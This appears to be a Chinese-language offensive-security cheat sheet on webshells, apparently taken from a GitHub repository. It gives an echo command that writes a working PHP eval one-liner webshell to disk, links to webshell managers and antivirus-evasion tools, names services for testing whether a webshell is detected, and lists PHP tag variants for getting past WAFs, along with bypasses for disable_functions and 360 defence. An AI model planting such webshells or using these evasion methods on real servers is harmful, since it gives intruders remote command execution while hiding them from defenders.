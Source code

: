 # 01、echo写入php一句话木马
```
echo "<?php eval(\$_POST['cmd']);?>">1.php

1.php内容如下
<?php eval($_POST['cmd']);?>
```
#### 注意
```
在burp及bash下测试发现，执行如下命令
echo "<?php eval($_POST['cmd']);?>">1.php
1.php的内容如下，并不是正确的php一句话木马
<?php eval(['cmd']);?>

windows下echo "bbb">3.txt时，会将双引号带入文件内容，linux下echo "bbb">3.txt时，不会将双引号带入文件内容。
```

# 02、webshell免杀
```
https://github.com/AntSwordProject/antSword
https://github.com/rebeyond/Behinder
https://github.com/BeichenDream/Godzilla
https://github.com/shack2/skyscorpion
https://github.com/Chora10/Cknife

https://github.com/Tas9er/ByPassBehinder4J
https://github.com/cseroad/Webshell_Generate
https://github.com/G0mini/Bypass
http://bypass.tidesec.com/web/
https://github.com/czz1233/GBByPass

https://github.com/AabyssZG/WebShell-Bypass-Guide/tree/main
```
webshell免杀效果检测
```
https://n.shellpub.com/
https://ti.aliyun.com/#/webshell
https://sandbox.dbappsecurity.com.cn/
```

# 03、webshell绕过disable_functions执行命令
```
https://github.com/mm0r1/exploits/tree/master/php-filter-bypass
```

# 04、webshell下过360执行命令
```
Webshell绕过360主动防御执行命令
https://mp.weixin.qq.com/s/OGwo1zoN1LS3aYalZ_PePw
```

# 05、针对php标签的waf绕过
```
写法1
# 标准写法
<?php echo date('Y-m-d h:m:s');?>

写法2
# 短标签，php5.4起
<? echo 1; ?>

写法3
# asp风格
<% echo 1; %>

写法4
# 长标签写法
<script language="php"> echo 1; </script>
```

# 参考
```
https://mp.weixin.qq.com/s/LK8zfWlz0s3v93sIY9DztQ【某师傅造的仿真环境，从GetShell到提权root】
```